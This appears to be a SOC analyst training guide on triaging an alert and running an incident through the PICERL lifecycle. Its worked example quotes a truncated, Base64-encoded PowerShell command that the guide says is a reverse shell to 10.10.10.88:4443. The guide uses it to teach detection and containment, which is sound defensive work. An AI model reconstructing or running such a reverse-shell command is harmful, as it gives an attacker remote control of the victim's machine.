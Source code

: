```yaml
---
layout: default
title: 06: The Anatomy of an Investigation
parent: The Guides
nav_order: 6
permalink: /guides/06-the-anatomy-of-an-investigation/
---
```


# Part 1: The First 5 Minutes: Triage and Prioritization

**Goal:** To learn how to perform "triage" on a new alert to quickly determine if it's a real fire, a false alarm, or something in between.

### Key Concepts (The Theory)

- **Triage:** The process of sorting new alerts based on severity and priority to ensure the most critical threats are handled first.
- **Alert Fidelity:** The trustworthiness of the alert source. An alert from your EDR for "Known Ransomware" is high-fidelity. An alert for "User logged in from a new country" is lower fidelity, as it could be legitimate travel.
- **Severity vs. Priority:**
  - **Severity:** How bad the event _could_ be (e.g., High, Medium, Low). This is often set by the tool.
  - **Priority:** The order in which _you_ should handle it. This is determined by the analyst, combining severity with business context.

### The Initial Triage Checklist

When a new alert hits your queue, you should quickly try to make an initial assessment. Run through these questions:

1.  **What is the alert?** (e.g., "PowerShell spawned from non-standard process," "Impossible travel detected.")
2.  **What is the asset?** Is it a domain controller, a web server, or a standard user's laptop? An alert on a critical server is always a higher priority.
3.  **Who is the user?** Is it a standard user, a developer, an executive (VIP), or a domain administrator? An alert on an admin account is extremely high priority because their credentials grant broad access.
4.  **What is the assigned severity?** (High, Medium, Low).

- **Analyst Tip:** The goal of triage is not to solve the case but to decide what to work on next. A `Medium` severity alert on a domain controller is a higher priority than a `High` severity alert on a test machine that's scheduled to be wiped tomorrow. Context is everything.

---

## Part 2: The Investigation Lifecycle (PICERL)

**Goal:** To use the industry-standard PICERL framework to structure an investigation from start to finish. PICERL stands for **P**reparation, **I**dentification, **C**ontainment, **E**radication, **R**ecovery, and **L**essons Learned.

### A Running Example: The Suspicious PowerShell Alert

Let's use a single alert and walk it through the lifecycle:
**The Alert:** `High Severity: powershell.exe spawned by WINWORD.EXE on workstation WKS-1337, user: bart.simpson`

---

### **Phase 1: Identification**

This is where you confirm if the alert is a **True Positive** (a real incident) or a **False Positive**. This phase uses a mini-loop of Observe-Orient-Decide-Act.

1.  **Observe (Gather the raw facts):**

    - **Host:** WKS-1337
    - **User:** bart.simpson
    - **Process:** `powershell.exe`
    - **Parent Process:** `WINWORD.EXE`
    - **From the EDR logs, you pull the full command line:** `powershell.exe -nop -w hidden -enc JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQAwAC4AOAA4ACIALAA0ADQANAAzACkAOwAkAHMAdAByAGUAYQBtACAAPQAgACQAYwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwBbAGIAeQB0AGUAWwBdAF0AJABiAHkAdABlAHMAIAA9ACAAMAAuAC4ANgA1ADUA MwA1AHwAJQB7ADAAfQA7AHcAaABpAGwAZQAoACgAJABpACAAPQAgACQAcwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABiAHkAdABlAHMALAAgADAALAAgACQAYgB5AHQAZQBzAC4ATABlAG4AZwB0AGgAKQApACAALQBuAGUAIAAwACkAe...`

2.  **Orient (Give the facts context):**

    - The parent process is Word. This is highly suspicious. Word should not be launching PowerShell. This is a classic indicator of a malicious macro. **(T1566.001: Spearphishing Attachment)**
    - The `-enc` flag means the command is Base64 encoded. This is a common technique for **Obfuscated Files or Information (T1027)**.
    - You decode the Base64 string. It reveals a PowerShell reverse shell script trying to connect to IP `10.10.10.88` on port `4443`. This is a **Reverse Shell (T1059.001: PowerShell)**.
    - You check the destination IP `10.10.10.88`. It's an internal, non-routable IP. This suggests the attacker may already have a foothold inside the network and this is an attempt at **Lateral Movement (TA0008)**.

3.  **Decide (Form a hypothesis):**
    - This is a **True Positive**. The user likely opened a malicious Word document, which executed a macro to launch a PowerShell reverse shell, a common technique for **Execution (TA0002)**, attempting to connect to an internal C2 server.

---

### **Phase 2: Containment**

**Goal:** Stop the bleeding! Prevent the attacker from causing more damage.

- **Action:** Based on your decision, you take immediate action. Using your EDR console, you trigger the **"Isolate Host"** function for `WKS-1337`. This uses the EDR agent to block all network connections on the workstation _except_ for the connection back to the EDR management server, so you can still investigate it remotely.
- **Action:** You also temporarily disable the `bart.simpson` user account in Active Directory / Entra ID to prevent the attacker from using stolen credentials to log in elsewhere.

---

### **Phase 3 & 4: Eradication and Recovery**

**Goal:** Remove the attacker from the environment and restore the system to a known-good state. This is often handled by a different team.

- **Eradication:** The original malicious file (`phish.docx`) is deleted. Any other files or persistence mechanisms created by the attacker are removed.
- **Recovery:** The workstation is wiped and re-imaged from a clean, golden image. This is the only way to be 100% sure the attacker is gone. The user account is re-enabled with a new password.

---

### **Phase 5: Lessons Learned**

**Goal:** Improve your defenses so this doesn't happen again.

- A post-incident meeting is held. Questions to ask:
  - How did the malicious email get past our email security gateway?
  - Why was the user able to run macros?
  - Did our EDR alert quickly enough?
- **Outcomes:** You might create a new rule in the email filter to block similar attachments, or push a new policy to disable macros for most users.

---

## Part 3: Case Management and Escalation

**Goal:** To understand the importance of good documentation and know when to ask for help.

### A Good Case Note

Your notes should be clear enough that a teammate can pick up the investigation right where you left off.

> **14:32 UTC:** Initial alert triage. High-severity alert for PowerShell spawned from WINWORD.EXE on WKS-1337 (user: bart.simpson). Given the TTP, immediately began investigation.
>
> **14:35 UTC:** Pulled command line from EDR. Confirmed use of Base64 encoding (`-enc` flag).
>
> **14:37 UTC:** Decoded Base64 payload. Revealed PowerShell reverse shell attempting connection to internal IP `10.10.10.88:4443`.
>
> **14:38 UTC:** **Declared incident.** This is a True Positive.
>
> .
> **14:39 UTC:** **Containment:** Isolated host WKS-1337 via EDR console. Temporarily disabled user `bart.simpson` in AD.
>
> **14:40 UTC:** **Escalation:** Escalated ticket to Tier 2 Incident Response team for eradication and recovery. Notified SOC lead.

### When to Escalate

- As soon as you **declare an incident** (confirm a True Positive).
- If the alert involves a VIP user or a critical system (e.g., a domain controller).
- If you are about to take a significant action you are unsure about.
- If you are stuck for more than 15-20 minutes on the "Identification" phase. It's better to get a second pair of eyes than to let an attacker dwell in the network.
